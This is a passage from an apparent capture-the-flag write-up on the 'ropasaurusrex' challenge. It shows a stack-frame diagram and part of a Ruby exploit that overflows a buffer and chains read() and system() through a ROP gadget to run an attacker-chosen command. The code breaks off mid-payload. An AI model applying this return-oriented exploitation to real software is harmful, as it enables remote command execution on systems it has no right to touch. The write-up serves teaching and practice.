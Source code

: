 ```
+----------------------+ <-- Start of read()'s frame
|     size_t count     | - strlen(cmd)
+----------------------+
|      void *buf       | - 0x08049530 (buf)
+----------------------+
|        int fd        | - 0 (stdin)
+----------------------+
| [address of "pppr"]  | - 0x080484b6
+----------------------+

+----------------------+
|         ...          |
+----------------------+
```

We also update our exploit with a <tt>s.read()</tt> at the end, to read whatever data the remote server sends us. The current exploit now looks like:

```

<span class="lnr"> 1 </span><span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">"</span><span class="Constant">localhost</span><span class="Special">"</span>, <span class="Constant">4444</span>)
<span class="lnr"> 4 </span>
<span class="lnr"> 5 </span><span class="Comment"># The command we'll run</span>
<span class="lnr"> 6 </span>cmd = <span class="Identifier">ARGV</span>[<span class="Constant">0</span>] + <span class="Special">"</span><span class="Special">\0</span><span class="Special">"</span>
<span class="lnr"> 7 </span>
<span class="lnr"> 8 </span><span class="Comment"># From objdump -x</span>
<span class="lnr"> 9 </span>buf = <span class="Constant">0x08049530</span>
<span class="lnr">10 </span>
<span class="lnr">11 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep read</span>
<span class="lnr">12 </span>read_addr = <span class="Constant">0x0804832C</span>
<span class="lnr">13 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep write</span>
<span class="lnr">14 </span>write_addr = <span class="Constant">0x0804830C</span>
<span class="lnr">15 </span><span class="Comment"># From gdb, "x/x system"</span>
<span class="lnr">16 </span>system_addr = <span class="Constant">0xb7ec2450</span>
<span class="lnr">17 </span><span class="Comment"># From objdump, "pop/pop/pop/ret"</span>
<span class="lnr">18 </span>pppr_addr = <span class="Constant">0x080484b6</span>
<span class="lnr">19 </span>
<span class="lnr">20 </span><span class="Comment"># Generate the payload</span>
<span class="lnr">21 </span>payload = <span class="Special">"</span><span class="Constant">A</span><span class="Special">"</span>*<span class="Constant">140</span> +
<span class="lnr">22 </span>  [
<span class="lnr">23 </span>    <span class="Comment"># system()'s stack frame</span>
<span class="lnr">24 </span>    buf,         <span class="Comment"># writable memory (cmd buf)</span>
<span class="lnr">25 </span>    <span class="Constant">0x44444444</span>,  <span class="Comment"># system()'s return address</span>
<span class="lnr">26 </span>
<span class="lnr">27 </span>    <span class="Comment"># pop/pop/pop/ret's stack frame</span>
<span class="lnr">28 </span>    system_addr, <span class="Comment"># pop/pop/pop/ret's return address</span>
<span class="lnr">29 </span>
<span class="lnr">30 </span>    <span class="Comment"># read()'s stack frame</span>
<span class="lnr">31 </span>    cmd.length,  <span class="Comment"># number of bytes</span>
<span class="lnr">32 </span>    buf,         <span class="Comment"># writable memory (cmd buf)</span>
```
